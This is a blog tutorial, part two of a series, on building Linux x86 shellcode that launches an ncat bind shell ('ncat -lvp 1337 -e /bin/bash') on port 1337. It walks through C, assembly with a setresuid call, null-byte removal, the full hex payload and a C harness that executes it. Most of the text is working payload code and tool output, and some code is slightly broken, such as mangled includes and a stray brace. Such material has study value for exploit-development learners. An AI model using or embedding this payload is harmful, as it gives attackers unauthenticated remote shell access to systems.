




HOW TO CREATE YOUR SHELLCODE PART II
Posted By: T3jv1l 11/12/2018 .

Hello Hackers this is a part two "How to create your own Shellcode".Before I start I would like to thanks him NytroRST for help.
Now let's start! We will be using ASM(Assembly Language) code for generating the shellcode.We get the most efficient lines of codes when we got to machine level To understand how to make this malicious code, you need to know how I said in the first part about:
Assembly Language x86/x64 , basic knowledge about C/C++, and knowledge of the Linux Sistem Operation
This time we will make a shellcode, which will execute the command "/usr/bin/ncat -lvp 1337 -e /bin/bash"
Now, as a computer enthusiast and a developer in progess, I succeeded in about two days to document and make my own version of shellcode, I could say that there are a lot of shellcode variants on the internet, just as newer ones operating systems no longer allow the nc commands with the argument "-e" and I thought to make a shellcode to give you access to the terminal using ncat. It is pretty hard to make a shellcode to execute ncat because, since it is a network debugging tool.
The first time let's see what our shellcode actually does !!
On your Linux terminal type the following command to open a ncat listener on port 1337 ,if you dont have ncat tool install with (sudo apt install nmap) "/usr/bin/ncat -lvp1337 -e/bin/bash" now we listen port 1337
 Before make the program in C language, we must keep in mind that each register must have values specific to each parameter used by the ncat. For Example:
EAX = 11 (this value at EAX register represents system call for execve)
EBX = "/usr/bin/ncat" (char *)
ECX = arguments (char **)
EDX = env (char **)
ESI contain the Index Source ,specified for strings
Now that we have clarified this aspect, we will be able to make our own program running in the C programming language!
#include <"stdio.h">
#include <"unistd.h">
int main()
{
char *env[1] = {NULL};
char *arguments[7]= { "/usr/bin/ncat",
"-lvp",
"1337",
"-e",
"/bin/bash",
NULL
};
execve("/usr/bin/ncat", arguments, env);
}
Now we use strace to see what syscall is executing!!
t3jv1l@t3jv1l:~$ strace ./shellcode
execve("./shellcode", ["./shellcode"], 0x7ffeb39575a0 /* 63 vars */) = 0
strace: [ Process PID=5815 runs in 32 bit mode. ]
brk(NULL) = 0x56e7b000
access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=108639, ...}) = 0
mmap2(NULL, 108639, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fab000
close(3)
Here we can see the first system call execve executing out program, followed by the opening of the dynamic linker/loader ld.so to load shared libraries, followed by the opening of libc which loads the standard C library, followed by its identification as an ELF file ("\177ELF"), followed by our program being mapped in the memory, and finally our call to exit. So it works.Now let's try to extract shellcode ,i will use my own tool in python for extract this shellcode!
You can find this tool on my github:
https://github.com/T3jv1l/Sh3llshock
t3jv1l@t3jv1l:~$ Sh3llshock.py
____ _ _____ _ _ _ _
/ ___|| |_ |___ /| | |___| |__ ___ ___| | __
\___ \| '_ \ |_ \| | / __| '_ \ / _ \ / __| |/ /
___) | | | |___) | | \__ \ | | | (_) | (__| <
|____/|_| |_|____/|_|_|___/_| |_|\___/ \___|_|\_\
<<<<<< Coded by T3jv1l >>>>>>>>
<<<<<< Contact for bug t3jv1l@gmail.com >>>>>>
Usage: [argument] [file] [argument]:
-f --file The Elf x84/x64 file
-s --show Show shellcode
-i --intel Syntax
Example: ./Sh3llshock.py -f '/home/T3jv1l/Desktop/Python/hello.o' -s
t3jv1l@t3jv1l:~$ Sh3llshock.py -f "shellcode" -s
[+] Shellcode =
\x53\x83\xec\x08\xe8\xbf\x00\x00
\x00\x81\xc3\x0f\x1c\x00\x00\x8b
\x83\x24\x00\x00\x00\x85\xc0\x74
\x05\xe8\x62\x00\x00\x00\x83\xc4
\x08\x5b\xc3
[+] We have a shellcode...
Now we have our own shellcode, but is a problem ,this shellcode contain a NULL BYTES
Null byte is a byte with the value zero \x53\x83\xec\x08\xe8\xbf\x00\x00\x00\x81\xc3\x0f\x1c\x00\x00\x8b\x83\x24\x00\x00\x00\x85\xc0\x74\x05\xe8\x62\x00\x00\x00\x83\xc4\x08\x5b\xc3 . It is present in many character sets, including ISO/IEC 646 (or ASCII), the C0 control code, the Universal Coded Character Set (or Unicode), and EBCDIC. It is available in nearly all mainstream programming languages. Typically, this happens when we try to extract shellcode from a program made in C.
Even if we try to test this shellcode, the execution will stop at the first Null Byte (/x00)
The only thing that remains is to analyze where those bits are located! ...We use objdump for this!
t3jv1l@t3jv1l:~$ objdump -d shellcode
shellcode: file format elf32-i386
Disassembly of section .init:
000003b8 <_init>:
3b8: 53 push %ebx
3b9: 83 ec 08 sub $0x8,%esp
3bc: e8 bf 00 00 00 call 480 <__x86.get_pc_thunk.bx>
3c1: 81 c3 0f 1c 00 00 add $0x1c0f,%ebx
3c7: 8b 83 24 00 00 00 mov 0x24(%ebx),%eax
3cd: 85 c0 test %eax,%eax
3cf: 74 05 je 3d6 <_init+0x1e>
3d1: e8 62 00 00 00 call 438 <__gmon_start__@plt>
3d6: 83 c4 08 add $0x8,%esp
3d9: 5b pop %ebx
3da: c3 ret
....................................................................
We stoped at this section , here is your shellcode!
If we look is full of those bits we do not want! In the first part of shellcode you will see that I did not have any problems with those bits
I speak with NytroRST and he said: To avoid NULL bytes, all you have to do is to replace the instructions in the machine code with contain NULL .For example, to make a 0 register, you can do this:
mov eax, 0But this will contain NULL bytes and a void replacing the instruction with
xor eax, eaxWhich has the same result,EAX becomes 0, but there is no NULL in machine language.Then I remembered that in college I used an XOR method on an electric circuit which can also be applied here.
Although,I tried to run as much as I could from ASM,we need to write in Assembly Language so I can get rid of those NULL. I will put in references,link with cours in Assembly language and i will put a article writen by NytroRST about Shellcode for Windows.
How can we use the method XOR? it's very easy, I'll put a little schema to understand.
XOR Methode:
0 XOR 0 = 0
0 XOR 1 = 1
1 XOR 0 = 1
1 XOR 1 = 0
You need to remember two ideas :
1) You can't have NULL in your shellcode!
2) XOR is your friend!
Now I will make a small skeleton to see how our program should look like in Assembly Language to understand better what happened here!
jmp short todo
shellcode:
.____________________________.
| |
| shellcode instructions |
|____________________________|
todo:
call shellcode
db '/usr/bin/ncat#-lvp1337#-e/bin/bash#AAAABBBBCCCCDDDD'
; 012345678901234567890123456789012345678901234567890
Now let's start building our assembly code!
global _start:
_start:
jmp short todo
shellcode:
xor eax, eax ;Zero out eax
xor ebx, ebx ;Zero out ebx
xor ecx, ecx ;Zero out ecx
cdq ;Zero out edx using the sign bit from eax
mov BYTE al, 0xa4 ;Setresuid syscall 164 (0xa4)
int 0x80 ;Syscall execute
pop esi ;Esi contain the string in db
xor eax, eax ;Zero out eax
mov[esi+13], al ;Null terminate /usr/bin/ncat
mov[esi+22], al ;Null terminate -lvp1337
mov[esi+34], al ;Null terminate -e/bin/bash
mov[esi+35], esi ;Store address of /usr/bin/ncat in AAAA
lea ebx, [esi+14] ;Load address of -lvp1337
mov[esi+39], ebx ;Store address of -lvp1337 in BBBB taken from ebx
lea ebx, [esi+23] ;Load address of -e/bin/bash into ebx
mov[esi+43], ebx ;Store address of -e/bin/bash in CCCC taken from ebx
mov[esi+47], eax ;Zero out DDDD
mov al, 11 ;11 is execve syscall number
mov ebx, esi ;Store address of /usr/bin/ncat
lea ecx, [esi+35] ;Load address of ptr to argv[] array
lea edx, [esi+47] ;envp[] NULL
int 0x80 ;Syscall execute
todo:
call shellcode
db '/usr/bin/ncat#-lvp1337#-e/bin/bash#AAAABBBBCCCCDDDD'
; 012345678901234567890123456789012345678901234567890
;We commented down of it number to have a focus on the command.
Now all we have to do is compile the program and extract that shellcode! Look Part 1 to see how it is compiled!
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ nano shellcode.asm
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ nasm -f elf32 shellcode.asm -o shellcode.o
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ ld -m elf_i386 -s -o shellcode shellcode.o
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ objdump -d shellcode
shellcode: file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
0: eb 35 jmp 37 < todo>
00000002 < shellcode>:
2: 31 c0 xor %eax,%eax
4: 31 db xor %ebx,%ebx
6: 31 c9 xor %ecx,%ecx
8: 99 cltd
9: b0 a4 mov $0xa4,%al
b: cd 80 int $0x80
d: 5e pop %esi
e: 31 c0 xor %eax,%eax
10: 88 46 0d mov %al,0xd(%esi)
13: 88 46 16 mov %al,0x16(%esi)
16: 88 46 22 mov %al,0x22(%esi)
19: 89 76 23 mov %esi,0x23(%esi)
1c: 8d 5e 0e lea 0xe(%esi),%ebx
1f: 89 5e 27 mov %ebx,0x27(%esi)
22: 8d 5e 17 lea 0x17(%esi),%ebx
25: 89 5e 2b mov %ebx,0x2b(%esi)
28: 89 46 2f mov %eax,0x2f(%esi)
2b: b0 0b mov $0xb,%al
2d: 89 f3 mov %esi,%ebx
2f: 8d 4e 23 lea 0x23(%esi),%ecx
32: 8d 56 2f lea 0x2f(%esi),%edx
35: cd 80 int $0x80
00000037 < todo>:
37: e8 c6 ff ff ff call 2 < shellcode>
3c: 2f das
3d: 75 73 jne b2 < todo+0x7b>
3f: 72 2f jb 70 < todo+0x39>
41: 62 69 6e bound %ebp,0x6e(%ecx)
44: 2f das
45: 6e outsb %ds:(%esi),(%dx)
46: 63 61 74 arpl %sp,0x74(%ecx)
49: 23 2d 6c 76 70 31 and 0x3170766c,%ebp
4f: 33 33 xor (%ebx),%esi
51: 37 aaa
52: 23 2d 65 2f 62 69 and 0x69622f65,%ebp
58: 6e outsb %ds:(%esi),(%dx)
59: 2f das
5a: 62 61 73 bound %esp,0x73(%ecx)
5d: 68 23 41 41 41 push $0x41414123
62: 41 inc %ecx
63: 42 inc %edx
64: 42 inc %edx
65: 42 inc %edx
66: 42 inc %edx
67: 43 inc %ebx
68: 43 inc %ebx
69: 43 inc %ebx
6a: 43 inc %ebx
6b: 44 inc %esp
6c: 44 inc %esp
6d: 44 inc %esp
6e: 44 inc %esp
Now we use Sh3llshock.py to extract the shellcode! We obtain:
t3jv1l@t3jv1l:~/Desktop/OSCE/Shellcode/test$ Sh3llshock.py -f "shellcode" -s
[+] Shellcode =
\xeb\x35\x31\xc0\x31\xdb\x31\xc9
\x99\xb0\xa4\xcd\x80\x5e\x31\xc0
\x88\x46\x0d\x88\x46\x16\x88\x46
\x22\x89\x76\x23\x8d\x5e\x0e\x89
\x5e\x27\x8d\x5e\x17\x89\x5e\x2b
\x89\x46\x2f\xb0\x0b\x89\xf3\x8d
\x4e\x23\x8d\x56\x2f\xcd\x80\xe8
\xc6\xff\xff\xff\x2f\x75\x73\x72
\x2f\x62\x69\x6e\x2f\x6e\x63\x61
\x74\x23\x2d\x6c\x76\x70\x31\x33
\x33\x37\x23\x2d\x65\x2f\x62\x69
\x6e\x2f\x62\x61\x73\x68\x23\x41
\x41\x41\x41\x42\x42\x42\x42\x43
\x43\x43\x43\x44\x44\x44\x44
[+] We have a shellcode....
Now it's time to test this shellcode with C program!
#include <'stdio.h'> //IO header
#include <'sys/mman.h'> //MMAN sys func
#include <'string.h'> //Functions on favor of strings
#include <'stdlib.h'> //Define Var types
#include <'unistd.h'> //Defines misc symbolic constants and types, and declares misc functions
int (*shellcodetotest)(); /* Global Variable type int, shellcode to test is a function pointer */
char shellcode[] = "\xeb\x35\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x5e\x31\xc0\x88\x46\x0d\x88\x46\x16\x88\x46\x22\x89\x76\x23\x8d\x5e\x0e\x89\x5e\x27\x8d\x5e\x17\x89\x5e\x2b\x89\x46\x2f\xb0\x0b\x89\xf3\x8d\x4e\x23\x8d\x56\x2f\xcd\x80\xe8\xc6\xff\xff\xff\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x6e\x63\x61\x74\x23\x2d\x6c\x76\x70\x31\x33\x33\x37\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x23"; /* Global array */
int main(int argc, char **argv) {
void *ptr = mmap(0, 150, PROT_EXEC | PROT_WRITE| PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0); /* Mmap functions passed to *ptr pointer */
if(ptr == MAP_FAILED){
perror("mmap"); /* Func to error of program */
exit(-1);
printf("Shellcode Length: %d\n", strlen(shellcode));
}
memcpy(ptr, shellcode, sizeof(shellcode)); /* Memcpy function */
shellcodetotest = ptr; /* Here we test the shellcode with mmap functions */
shellcodetotest(); /* Exec the shellcode */
return 0; /* return */
}
}
Remove this part from your shellcode \x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44. Let's test!!! Use Shellcode to listen port 1337!!!
 You can find "Final code!!!!!!" here
https://www.exploit-db.com/exploits/45980
I hope you like this article about Shellcode and sorry for my bad English i am not a native speaker (Happy Hack)
References!!
Intro to x86 Assembly Language
Introduction to Windows shellcode development – Part 1 (NytroRST)
0x00SEC Linux Shellcoding (Part 1.0)
Writing a port binding shellcode for Linux
https://www.exploit-db.com/papers/35538
http://www.vividmachines.com/shellcode/shellcode.html
https://en.wikipedia.org/wiki/Shellcode